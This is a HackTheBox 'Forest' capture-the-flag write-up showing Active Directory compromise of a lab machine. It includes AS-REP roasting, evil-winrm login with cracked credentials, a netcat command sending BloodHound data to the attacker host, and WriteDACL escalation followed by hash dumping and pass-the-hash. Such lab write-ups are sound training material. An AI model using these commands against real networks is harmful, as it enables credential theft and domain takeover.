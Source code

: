 ```yaml
---
title: "HackTheBox: Forest"
date: "2020-03-21"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/forest/htb-forst.png)

* * *

## Host Enumeration

As usual, we begin with an nmap scan to view open ports on the host. In my limited experience, Windows hosts have many open ports. It seems that this remains true with Forest. The notable ports here are

- 53: Domain
- 88: Kerberos-sec
- 445: microsoft-ds

![Image](assets/img/writeups/hackthebox/forest/image-22.png)

#### Enumeration - Domain

I tried to perform a zone transfer using `dig` however, it was unsuccessful. Seems that this is a dead end.

```
$ dig -axfr 10.10.10.161
```

#### Enumeration - Samba

I used `enum4linux` which allows us to get a list of usernames. There were no notes for the accounts which could have revealed a password. However, a list of usernames is always a good start! I saved the usernames into a file.

![Image](assets/img/writeups/hackthebox/forest/image-23.png)

#### Enumeration - Kerberos-sec

At first I was unsure how this service could be exploited, however after some research I understood that this service is used to distribute the kerberos tickets to users. I searched the [impacket suite](https://github.com/SecureAuthCorp/impacket), and with some luck I saw the [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/8d4c91481b01dae9f62804893fcc74a40ffc7c45/examples/GetNPUsers.py) script, which attempts to get the ticket granting ticket (TGT) using a list of usernames. The TGT would be obtained for users which `Do not require Kerberos preauthentication`. The script automatically formats the TGT such that it could be brute-forced using `john` to obtain the plain-text password.

```
$ GetNPUsers.py htb.local/ -no-pass -usersfile ~/htb/Forest/user.txt
```

![Image](assets/img/writeups/hackthebox/forest/image-24.png)

![Image](assets/img/writeups/hackthebox/forest/image-25.png)

We now have user:pass credentials, however as there is no ssh port open, we cannot get a shell instantly.

* * *

## Getting user.txt

It is not seen in the nmap scan earlier - I suppose that the required port is not in the top-1000 ports - however, we are able to get a shell using `[evil-winrm](https://github.com/Hackplayers/evil-winrm)`; which operates by default on port 5985

```
$ evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Then we got the user.txt flag!

* * *

## Escalating our Privileges

We need to escalate from local user to administrator level. We have to **let the dogs out** - a bloodhound reference. Let's use `[invoke-sharphound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)` to enumerate the host and the domain.

```
> powershell Import-Module .\SharpHound.ps1
> Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
> cmd.exe /c ".\nc.exe 10.10.xx.xx 1234 < bloodhound.zip"
```

![Image](assets/img/writeups/hackthebox/forest/image-26.png)

![Image](assets/img/writeups/hackthebox/forest/image-27-1024x256.png)

Then, import the contents of the Zip file to Bloodhound application on Kali/Parrot, ensuring that the neo4j NoSQL database is running; otherwise this will not work.

We have to create a route from svc-alfresco \[our user shell\] to administrators level. To do this, we click the road icon at the top right of the query box \[top left of image\]. It looks something like this:

![Image](assets/img/writeups/hackthebox/forest/image-28-1024x759.png)

We see that the level before `HTB.LOCAL` is Exchange Windows Permissions, which is related through WriteDacl to `HTB.LOCAL`. I found [this blog post](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/) which shows how we can exploit this relationship. I assume that the exploit changes the permission of svc-alfresco user to be forest admin.

Rather than importing `invoke-aclpwn.ps1` to the target host, I used `[aclpwn.py](https://github.com/fox-it/aclpwn.py)` on my localhost.

- `-f` is who we are moving from, `-ft` is their level
- `-d` is the domain
- `-du` and `-dp` are the neo4j database username/password

> Note: The credentials in the screenshot below are fake

```
$ aclpwn -f svc-anfresco -ft user -d htb.local -du neo4j -dp aaaaa
```

![Image](assets/img/writeups/hackthebox/forest/image-29-1024x435.png)

After the aclpwn.py has changed svc-alfresco's permissions, we use `[secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)` from the Impacket suite to dump the domain administrator hash.

![Image](assets/img/writeups/hackthebox/forest/image-30-1024x560.png)

Rather than trying to brute-force the password, I used the metasploit-framework pass the hash module to authenticate myself and get an administrator shell.

![Image](assets/img/writeups/hackthebox/forest/image-31-1024x434.png)

* * *

## Closing thoughts

This box has given me the opportunity to use Bloodhound for the first time, and additionally how it is possible to exploit the WriteDACL relationship. I learned a lot through this box, which I am happy about!
